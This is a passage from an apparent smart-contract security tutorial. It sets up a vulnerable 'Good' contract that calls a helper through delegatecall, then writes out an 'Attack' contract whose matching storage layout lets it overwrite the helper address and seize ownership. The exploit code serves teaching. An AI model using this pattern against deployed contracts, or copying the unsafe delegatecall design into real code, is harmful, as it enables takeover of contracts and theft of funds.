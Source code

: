 ```solidity
    function setNum( uint _num) public {
        helper.delegatecall(abi.encodeWithSignature("setNum(uint256)", _num));
    }
}
```

After creating `Good.sol`, we will create the `Helper` contract inside the `contracts` directory named **`Helper.sol`**.&#x20;

This is a simple contract which updates the value of `num` through the `setNum` function. Since it only has one variable, the variable will always point to `Slot 0`. When used with `delegatecall`, it will modify the value at `Slot 0` of the original contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Helper {
    uint public num;

    function setNum(uint _num) public {
        num = _num;
    }
}
```

Now create a contract named **`Attack.sol`** within the `contracts` directory and write the following lines of code. We will understand how it works step by step.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "./Good.sol";

contract Attack {
    address public helper;
    address public owner;
    uint256 public num;

    Good public good;

    constructor(Good _good) {
        good = Good(_good);
    }

    function setNum(uint256 _num) public {
        owner = msg.sender;
    }

    function attack() public {
        // This is the way you typecast an address to a uint
        good.setNum(uint256(uint160(address(this))));
        good.setNum(1);
    }
}
```
